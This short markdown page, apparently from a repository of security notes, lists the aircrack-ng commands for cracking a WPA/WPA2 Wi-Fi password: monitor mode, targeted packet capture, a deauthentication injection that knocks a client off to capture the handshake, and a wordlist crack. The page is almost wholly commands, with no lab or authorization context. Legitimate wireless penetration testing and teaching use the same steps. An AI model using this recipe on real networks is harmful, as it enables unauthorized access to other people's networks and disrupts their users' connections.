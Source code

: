 # Aircrack-ng (WPA/WPA2)

Using just the `aircrack-ng` suite of tools to crack the secret.

## Commands

* Run [setup](../../setup.md) first

```bash
# Start monitor mode
sudo airmon-ng start $INTERFACE

# Start monitor mode but with filters and output saved to PCAP.
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# Do one deauth injection attack while still monitoring
sudo aireplay-ng -0 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.
# Stop airodump-ng when it appears
qq

# Crack the password
sudo aircrack-ng -w $WORDLIST -b $BSSID -e $SSID $PCAP
```

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)

